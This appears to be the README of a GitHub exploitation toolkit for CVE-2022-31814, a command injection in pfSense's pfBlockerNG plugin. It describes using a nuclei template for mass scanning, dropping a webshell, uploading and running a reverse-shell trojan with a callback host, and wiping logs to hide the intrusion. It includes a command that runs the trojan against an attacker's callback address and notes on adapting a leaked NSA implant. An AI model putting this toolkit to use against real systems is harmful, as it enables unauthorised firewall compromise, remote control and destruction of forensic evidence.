 # SenselessViolence
CVE-2022-31814 (pfSense pfBlockerNG <= 2.1.4_26) Exploitation Toolkit.

## What?
This is an exploitation toolkit for the pfSense pfBlockerNG <= 2.1.4_26 plugins remote command injection feature discovered by IHTeam.

I wrote this to play around with some of the design principles found in the NSA's firewall exploitation toolkit - for this reason, its designed to be fully compatible with the nopen implant (one small, and documented, change needed), have built-in log wiping features, and be extremely reliable by implementing some pre-flight checks (passive and active vulnerability tests). 

A trivial reverse TTY shell payload written in Python (these things ship with a Python interpreter) is supplied as a surrogate for nopen in this toolkit, because running sketchy binaries swiped from the NSA seems a tad foolish in production environments. 

## How to Use?
For yolo-scanning for beg bounties and mass-exploitation, run the nuclei template supplied (it should also have been upstreamed by now). This will give you a target list. This file is named `nuclei-CVE-2022-31814.yaml`.


### Modes 

For precision carefulling of networks, there are four "modes" you will want to be aware of, and are documented below. Run them in order. These are set using the "--mode" flag.

- touch 
- probe
- exploit
- cleanup

#### touch
This mode makes two HTTP requests - one to check its actually a pfSense (by checking the HTTP title on /), and one to the vulnerable endpoint to check it looks ok. This mode does not exploit anything. 

#### probe
This mode makes two HTTP requests - both of which exploit the vulnerability. It injects a `sleep 1` and a `sleep 10` and makes sure the time difference between both requests is greater than 6 seconds. I added a bit of fuckit factor into this to account for latency if you are pitching the exploit over a proxy (you are, right?).

#### exploit
This mode makes 3 HTTP requests. 

The first exploits the vulnerability to drop a webshell using a GET request.

The second uses the webshell to upload our trojan using a POST request.

The third uses the webshell to execute our trojan using a POST request.

#### cleanup

This mode makes two HTTP requests.

The first uploads a cleanup script using the webshell.

The second executes the cleanup script.

The cleanup script zaps the logs, deletes the trojan, deletes the webshell, and then deletes itself. It does this in a reasonable manner (rm -rf). Not particularly forensically sound - I may fix that later by using `dd` to overwrite the files before deleting. I may also write some sed magic to surgically zap the logs, but really, only if I can be fucked. 

### Other arguments

- trojan - path to your trojan executable/script
- cbhost - callback host for trojan
- cbport - callback port for trojan
- target - target base url, eg: https://pfsense.local
- interact - spawns a shitty pseudo shell using the webshell in case you want to run commands, transfer files, etc via the webshell. May not be implemented in the initial public release (its buggy as shit)
- help (prints a help menu)

### Making it work with nopen.

For nopen use, just replace the final "execute trojan" command in the `exploit()` function with the following:

```
    execute_command(base_url, shell_webpath, shell_param, shell_command=f"chmod +x /tmp/.troy;D=-c{connectback_host}:{connectback_port} /tmp/.troy")
```

And supply a freebsd nopen (noserver) binary that works on your target system - this may be difficult, you need to patch the `noserver-3.3.2.3-freebsd_8.0-i386` from the EQGRP leak to use `libkvm.so.7` instead of `libkvm.so.5`, and the target system needs the lib32 compat layer... Which doesn't ship by default in pfSense.

I might add a `--nopen` flag to automagic this in a later release, if people *really* care that much to use nopen. They shouldn't.

## Screenshot of it in action (showing the logs are sparkly clean).
![screenshot](https://github.com/EvergreenCartoons/SenselessViolence/blob/main/Screenshot%20from%202022-09-18%2016-03-39.png?raw=true)

## References
IHTeam Advisory: https://www.ihteam.net/advisory/pfblockerng-unauth-rce-vulnerability/

